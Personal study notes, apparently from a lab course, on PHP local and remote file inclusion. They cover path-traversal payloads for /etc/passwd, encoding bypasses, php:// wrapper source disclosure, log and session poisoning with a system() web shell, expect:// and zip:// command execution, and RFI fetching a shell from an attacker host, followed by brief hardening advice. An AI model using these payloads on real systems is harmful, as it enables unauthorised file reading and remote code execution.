LFI and RFI attack range from sensitive information disclosure and Cross-site Scripting to Remote Code Execution
LFI we can  view or access the Local files on the server
in LFI we can access files on system like 
Example - http://example.com/?file=filename.php
or in worst case scenario upload a malicious   code to the server 	http://example.com/?file=../../uploads/evil.php
but even if we can upload we still don't know if it will be uploaded on same server that has the LFI exploit 

# LFI
more examples :
http://example.com/?file=../../../../etc/passwd
scripts can employ search and replace techniques to avoid path traversals. For example:

Code: php
$language = str_replace('../', '', $_GET['language']);
....//....//....//....//....//....//....//....//etc/passwd

In this scenario, input such as ../../../../../etc/passwd will result in the final string to be lang_../../../../../etc/passwd, which is invalid.
../../../../../etc/passwd
Bypass with URL Encoding
On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.

In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

The payload %2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd 
# wrappers

https://www.php.net/manual/en/wrappers.php.php

php://filter/read=/resource=/etc/passwd 
The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.

  Source Code Disclosure via PHP Wrappers
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=string.rot13/resource=/etc/passwd

# log poisoning 
default apache log file path
/var/log/apache2/access.log
in old apache servers and nginx servers logs are readable by low priv users such as www 
and the logs contain everything about the request and their User-Agent  we can use the User-Agent string to add our #RCE  <?php system($_GET['super']); ?> this gets executed by the server and we can run our code 
![[Pasted image 20210930225753.png]]
similar files to do that 
/var/log/nginx/access.log,
/var/log/sshd.log, 
/var/log/mail, 
and /var/log/vsftpd.log.
/proc/self/environ file can be included, which can be poisoned through the User-Agent string.
# RCE through PHP Session Files
default path /var/lib/php/sessions/sess_SESSION
C:\Windows/Temp
we can try and poison the session file by adding stuff after the ?example=CODE
We can see that the session file contains language preference and the selected page. Let's try poisoning the value of page by sending something through the language parameter. First, request the below URL:

http://134.209.184.216:32415/index.php?language=session_poisoning
This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

This time the session file contains session_poisoning instead of es.php, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using the following URL:

http://134.209.184.216:32415/index.php?language=
<?php system($_GET['cmd']); ?>
We can now include the session file and use the cmd parameter to execute operating system commands.

issue with this that we can only run a command only once 

# Expect Wrapper
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

http://blog.inlanefreight.com/index.php?language=expect://id

# Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. 

 The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request
 http://134.209.184.216:30489/index.php?language=zip://malicious.zip%23exec.php&cmd=id
 
 
 # RFI 
 RFI accrues when the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on
 then we can start a SMB or FTP or HTTP server on our machine and upload a shell code and execute commands by making the server connecting to us and get the shell 
 ![[Pasted image 20211001164936.png]]
 ![[Pasted image 20211001164956.png]]
 When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.
 ![[Pasted image 20211001165028.png]]
 example :
 =http://OURIP/FILE
 =ftp://
 
 # phpinfo lfi
 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
 https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf
 ![[Pasted image 20211101190518.png]]
 
 
 # defending side 
 -  if the system() function is blocked, a log will be created about the blocked functionality being used when an attacker uses it.
 -  web applications should never display error messages to the website edit the php.ini file and verify: display_errors = Off is set
 -  To block system() in PHP, append the functions you want to block to the "disabled_functions" lines of PHP. A list of functions recommended blocking is: system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source; allow_url_fopen and allow_url_include to Off.
 -  using a docker preventing them from accessing non-web related files.  
 -  if docker isnt an option  adding open_basedir = /var/www in the php.ini file
 -  using WAF Web Application Firewall 




